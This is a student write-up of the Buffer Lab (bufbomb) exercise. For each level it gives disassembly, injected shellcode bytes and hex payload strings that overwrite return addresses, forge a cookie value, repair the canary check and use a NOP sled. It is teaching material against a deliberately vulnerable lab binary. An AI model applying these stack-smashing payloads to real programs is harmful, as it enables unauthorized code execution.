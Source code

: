# Buffer Lab

## Level 0

As the assembly of `getbuf`:

```assembly
0x080491f4 <+0>:     push   ebp
0x080491f5 <+1>:     mov    ebp,esp
0x080491f7 <+3>:     sub    esp,0x38
0x080491fa <+6>:     lea    eax,[ebp-0x28]
0x080491fd <+9>:     mov    DWORD PTR [esp],eax
0x08049200 <+12>:    call   0x8048cfa <Gets>
0x08049205 <+17>:    mov    eax,0x1
0x0804920a <+22>:    leave
0x0804920b <+23>:    ret
```

we can see a buffer with 0x28(40) bytes is allocated on stack. So to finish level 0, just overflow 8 bytes and write up return address, the last 4 overflowed bytes are address to function call `smoke`. The answer is down below:

```c
00000000: 6161 6161 6161 6161 6161 6161 6161 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 6161 6161 188c 0408 
00000030: 0a
```

## Level 1

In level 1 we need to modify return address to function `fizz` and set argument equal to cookie. Because `bufbomb` use IA32 architecture, the argument is always stored at higher address followed by return address of previous call stack, we can overflow 12 bytes, 4 for return address of `fizz` ,4 for placeholder and 4 for cookies:

```c
00000000: 6161 6161 6161 6161 6161 6161 6161 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 6161 6161 428c 0408 
00000030: aaaa aaaa 7c81 fa57 0a
```

## Level 2

In level 2 we need to set a global variable `gloval_value` to our cookie and return `getbuf` to function `bang`. As the assembly of `bang`:

```assembly
0x08048c9d <+0>:     push   ebp
0x08048c9e <+1>:     mov    ebp,esp
0x08048ca0 <+3>:     sub    esp,0x18
0x08048ca3 <+6>:     mov    eax,ds:0x804d100
0x08048ca8 <+11>:    cmp    eax,DWORD PTR ds:0x804d108
0x08048cae <+17>:    jne    0x8048cd6 <bang+57>
0x08048cb0 <+19>:    mov    DWORD PTR [esp+0x8],eax
0x08048cb4 <+23>:    mov    DWORD PTR [esp+0x4],0x804a360
0x08048cbc <+31>:    mov    DWORD PTR [esp],0x1
0x08048cc3 <+38>:    call   0x80489c0 <__printf_chk@plt>
0x08048cc8 <+43>:    mov    DWORD PTR [esp],0x2
0x08048ccf <+50>:    call   0x804937b <validate>
0x08048cd4 <+55>:    jmp    0x8048cee <bang+81>
0x08048cd6 <+57>:    mov    DWORD PTR [esp+0x8],eax
0x08048cda <+61>:    mov    DWORD PTR [esp+0x4],0x804a50c
0x08048ce2 <+69>:    mov    DWORD PTR [esp],0x1
0x08048ce9 <+76>:    call   0x80489c0 <__printf_chk@plt>
0x08048cee <+81>:    mov    DWORD PTR [esp],0x0
0x08048cf5 <+88>:    call   0x8048900 <exit@plt>
```

We can see this global variable is stored at `0x804d100`. So the shellcode could be like this:

```assembly
a1 08 d1 04 08          mov    0x804d108,%eax
a3 00 d1 04 08          mov    %eax,0x804d100
68 9d 8c 04 08          push   $0x8048c9d
c3                      ret
```

And answer to this level might be like this:

```c
00000000: a108 d104 08a3 00d1 0408 689d 8c04 08c3
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 6161 6161 6834 6855 
00000030: 0a
```

## Level 3

In level 3 we need to make function `test` jump to 'Boom' branch:

```c
void test()
{
    int val;
    /* Put canary on stack to detect possible corruption */
    volatile int local = uniqueval();

    val = getbuf();

    /* Check for corrupted stack */
    if (local != uniqueval()) {
    	printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie) {
        printf("Boom!: getbuf returned 0x%x\n", val);
        validate(3);
    } else {
    	printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```

However, the default return value of `getbuf()` is 1:

```c
int getbuf()
{
    char buf[NORMAL_BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

To make things changed, we need to take a look at assembly of `test`:

```assembly
0x08048daa <+0>:     push   ebp
0x08048dab <+1>:     mov    ebp,esp
0x08048dad <+3>:     push   ebx
0x08048dae <+4>:     sub    esp,0x24
0x08048db1 <+7>:     call   0x8048d90 <uniqueval>
0x08048db6 <+12>:    mov    DWORD PTR [ebp-0xc],eax
0x08048db9 <+15>:    call   0x80491f4 <getbuf>
0x08048dbe <+20>:    mov    ebx,eax
0x08048dc0 <+22>:    call   0x8048d90 <uniqueval>
0x08048dc5 <+27>:    mov    edx,DWORD PTR [ebp-0xc]
0x08048dc8 <+30>:    cmp    eax,edx
0x08048dca <+32>:    je     0x8048dda <test+48>
0x08048dcc <+34>:    mov    DWORD PTR [esp],0x804a388
0x08048dd3 <+41>:    call   0x80488c0 <puts@plt>
0x08048dd8 <+46>:    jmp    0x8048e20 <test+118>
0x08048dda <+48>:    cmp    ebx,DWORD PTR ds:0x804d108
0x08048de0 <+54>:    jne    0x8048e08 <test+94>
0x08048de2 <+56>:    mov    DWORD PTR [esp+0x8],ebx
0x08048de6 <+60>:    mov    DWORD PTR [esp+0x4],0x804a52a
0x08048dee <+68>:    mov    DWORD PTR [esp],0x1
0x08048df5 <+75>:    call   0x80489c0 <__printf_chk@plt>
0x08048dfa <+80>:    mov    DWORD PTR [esp],0x3
0x08048e01 <+87>:    call   0x804937b <validate>
0x08048e06 <+92>:    jmp    0x8048e20 <test+118>
0x08048e08 <+94>:    mov    DWORD PTR [esp+0x8],ebx
0x08048e0c <+98>:    mov    DWORD PTR [esp+0x4],0x804a547
0x08048e14 <+106>:   mov    DWORD PTR [esp],0x1
0x08048e1b <+113>:   call   0x80489c0 <__printf_chk@plt>
0x08048e20 <+118>:   add    esp,0x24
0x08048e23 <+121>:   pop    ebx
0x08048e24 <+122>:   pop    ebp
0x08048e25 <+123>:   ret
```

Noted that in essential these two if expression just compare value with `eax,edx` and `edx, DWORD PTR ds:0x804d108`, so just make these value equal to each other and then return to address of comparison is OK:

```assembly
89 c2                   mov    %eax,%edx
8b 1d 08 d1 04 08       mov    0x804d108,%ebx
68 c8 8d 04 08          push   $0x8048dc8
c3                      ret
```

And the solution might look like this:

```c
00000000: 89c2 8b1d 08d1 0408 68c8 8d04 08c3 6161  
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 6161 6161 6834 6855 
00000030: 0a
```

## Level 4

In this level, we need to do same thing as level 3 but 5 times, and the address of buffer would varies ±240 bytes in stack. To deal with this, just makes use of `nop` instructions and set up return address, makes it certainly fall into area of buffer. So the layout of solution might look like this:

- 506 bytes for `nop`(0x90).
- 14 bytes for shellcode instructions, as same as level 3.
- 4 bytes for return address[0x55683468 + 0xf0(240)]

Just as below:

```c
90 ....(506 times)
89c2 8b1d 08d1 0408 68c8 8d04 08c3
7833 6855
```

